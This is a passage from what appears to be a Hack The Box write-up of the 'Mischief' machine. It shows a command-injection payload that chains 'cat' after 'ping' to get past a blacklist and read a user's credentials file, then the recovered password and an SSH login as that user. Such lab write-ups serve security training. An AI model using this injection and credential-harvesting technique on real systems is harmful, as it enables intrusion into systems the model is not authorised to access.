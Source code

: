Username is: `administrator`

Once logged in we see:

![Command Execution Panel](/assets/images/htb-writeup-mischief/cep3.png)

There's a hint about a credentials file in the home directory.

The command input is filtered (some commands are blacklisted.)

But we can get the credentials with: `ping -c 2 127.0.0.1; cat /home/loki/c*;`

![Password](/assets/images/htb-writeup-mischief/password.png)

Password is `lokiisthebestnorsegod`

We can now SSH with user `loki` and password `lokiisthebestnorsegod`

```
root@violentunicorn:~/hackthebox/Machines/Mischief# ssh loki@10.10.10.92
loki@10.10.10.92's password: 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

[...]

loki@Mischief:~$ cat user.txt
bf5807<redacted>
```

### Privesc (unintended method)
